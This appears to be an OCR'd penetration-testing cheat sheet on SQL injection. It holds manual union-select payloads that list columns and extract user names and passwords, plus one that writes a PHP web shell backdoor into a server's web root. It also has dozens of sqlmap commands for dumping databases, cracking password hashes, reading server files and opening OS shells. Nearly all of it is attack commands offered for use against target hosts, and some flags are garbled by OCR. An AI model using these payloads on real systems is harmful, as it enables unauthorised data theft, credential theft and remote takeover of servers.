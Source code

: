         http://$ip/comment.php?id=738 union all select
        1,2,3,4,column\_name,6 FROM information\_schema.columns where
        table\_name='users'  
        extract the name and password  
        http://$ip/comment.php?id=738 union select
        1,2,3,4,concat(name,0x3a, password),6 FROM users  
        Create a backdoor  
        http://$ip/comment.php?id=738 union all select 1,2,3,4,"&lt;?php
        echo shell\_exec($\_GET\['cmd'\]);?&gt;",6 into OUTFILE
        'c:/xampp/htdocs/backdoor.php'

    -   SQLMap Examples

 - Crawl the links  
 sqlmap -u http://$ip --crawl=1  
 sqlmap -u http://meh.com --forms --batch --crawl=10
 --cookie=jsessionid=54321 --level=5 --risk=3  
 - SQLMap Search for databases against a suspected GET SQL Injection
 point ‘search’**  
 sqlmap –u http://$ip/blog/index.php?search –dbs

 - SQLMap dump tables from database oscommerce at GET SQL injection point ‘search’
 sqlmap –u http://$ip/blog/index.php?search= –dbs –D oscommerce –tables
 –dumps  
 - SQLMap GET Parameter command  
 sqlmap -u http://$ip/comment.php?id=738 --dbms=mysql --dump
 -threads=5  
 - SQLMap Post Username parameter
 sqlmap -u http://$ip/login.php --method=POST
 --data="usermail=asc@dsd.com&password=1231" -p "usermail" --risk=3
 --level=5 --dbms=MySQL --dump-all  
 - SQL Map OS Shell
 sqlmap -u http://$ip/comment.php?id=738 --dbms=mysql --osshell  
 sqlmap -u http://$ip/login.php --method=POST
 --data="usermail=asc@dsd.com&password=1231" -p "usermail" --risk=3
 --level=5 --dbms=MySQL --os-shell  
 - Automated sqlmap scan  
 sqlmap -u TARGET -p PARAM --data=POSTDATA --cookie=COOKIE  
 --level=3 --current-user --current-db --passwords  
 --file-read="/var/www/blah.php"  
 - Targeted sqlmap scan  
 sqlmap -u "http://meh.com/meh.php?id=1"  --dbms=mysql --tech=U --random-agent --dump  
 - Scan url for union + error based injection with mysql backend  
 and use a random user agent + database dump  
 sqlmap -o -u http://$ip/index.php --forms --dbs  
 sqlmap -o -u "http://$ip/form/" --forms  
 sqlmap check form for injection  
 sqlmap -o -u "http://$ip/vuln-form" --forms -D database-name -T users --dump  
 sqlmap dump and crack hashes for table users on database-name.

 Enumerate databases  
 sqlmap --dbms=mysql -u "$URL" --dbs  
 Enumerate tables from a specific database  
 sqlmap --dbms=mysql -u "$URL" -D "$DATABASE" --tables  
 Dump table data from a specific database and table  
 sqlmap --dbms=mysql -u "$URL" -D "$DATABASE" -T "$TABLE" --dump  
 Specify parameter to exploit  
 sqlmap --dbms=mysql -u
 "http://www.example.com/param1=value1&param2=value2" --dbs -p param2  
 Specify parameter to exploit in 'nice' URIs  
 sqlmap --dbms=mysql -u
 "http://www.example.com/param1/value1\*/param2/value2" --dbs \#
 exploits param1  
 Get OS shell  
 sqlmap --dbms=mysql -u "$URL" --os-shell  